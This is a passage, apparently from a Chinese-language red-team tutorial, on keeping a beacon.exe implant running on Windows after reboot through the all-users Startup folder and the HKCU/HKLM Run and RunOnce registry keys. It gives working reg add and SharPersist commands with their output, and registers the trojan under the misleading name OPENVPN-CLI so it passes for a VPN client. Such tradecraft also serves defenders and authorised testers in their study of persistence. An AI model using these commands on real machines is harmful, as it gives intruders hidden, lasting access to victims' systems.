 重启机器后，就算不登陆，也会运行 beacon.exe。这个 beacon.exe 完整性级别是中等。

如果想任何用户启动，可以将快捷方式移动到全局启动目录内，系统的普通用户有权读写。Windows 11 测试失败，还是只有 123 用户上线 root 没上线。

```plaintext
C:\ProgramData\Microsoft\Windows\Start Menu\Programs\Startup
  RW RAINGRAY\gbb
  RW NT AUTHORITY\SYSTEM
  RW BUILTIN\Administrators
  R  BUILTIN\Users
  R  Everyone
```

2.Registry AutoRun

注册表启动项分两类，一个是当前用户，另一个是当前机器，放在 Run 里的字符串登录后运行，[RunOne](https://learn.microsoft.com/en-us/windows/win32/setupapi/run-and-runonce-registry-keys) 也是登陆后后运行，区别在于只启动一次，一次性的原理也很简单，是启动后自动删除注册表，这样下次登陆时不会再重复运行。

-   HKCU\\Software\\Microsoft\\Windows\\CurrentVersion\\Run，当前用户每次登录都启动
    
    HKCU\\Software\\Microsoft\\Windows\\CurrentVersion\\RunOnce，只启动一次
    
-   HKLM\\Software\\Microsoft\\Windows\\CurrentVersion\\Run，当前机器内任意用户每次登录都启动
    
    HKLM\\Software\\Microsoft\\Windows\\CurrentVersion\\RunOnce，只启动一次
    

对 HKCU 注册表操作，普通用户就能创建注册表。

利用只需在注册表新建一个名为 OPENVPN-CLI 字符串，值是木马绝对路径。

```bash
PS C:\Users\123> reg add "HKCU\Software\Microsoft\Windows\CurrentVersion\Run" /v OPENVPN-CLI /d "C:\Users\123\AppData\Roaming\beacon.exe"
操作成功完成。
PS C:\Users\123> reg query HKCU\Software\Microsoft\Windows\CurrentVersion\Run /v OPENVPN-CLI

HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run
    OPENVPN-CLI    REG_SZ    C:\Users\123\AppData\Roaming\beacon.exe
```

SharPersist 也可以自动化 完成此操作。

```plaintext
PS C:\Users\123\Desktop> C:\Users\123\Desktop\SharPersist.exe -t reg -k hkcurun -v OPENVPN-CLI -c "C:\Users\123\Desktop\beacon.exe" -m add

[*] INFO: Adding registry persistence
[*] INFO: Command: C:\Users\123\Desktop\beacon.exe
[*] INFO: Command Args:
[*] INFO: Registry Key: HKCU\Software\Microsoft\Windows\CurrentVersion\Run
[*] INFO: Registry Value: OPENVPN-CLI
[*] INFO: Option:


[+] SUCCESS: Registry persistence added
PS C:\Users\123\Desktop> reg query "HKCU\Software\Microsoft\Windows\CurrentVersion\Run" /v OPENVPN-CLI

HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run
    OPENVPN-CLI    REG_SZ    C:\Users\123\Desktop\beacon.exe
```
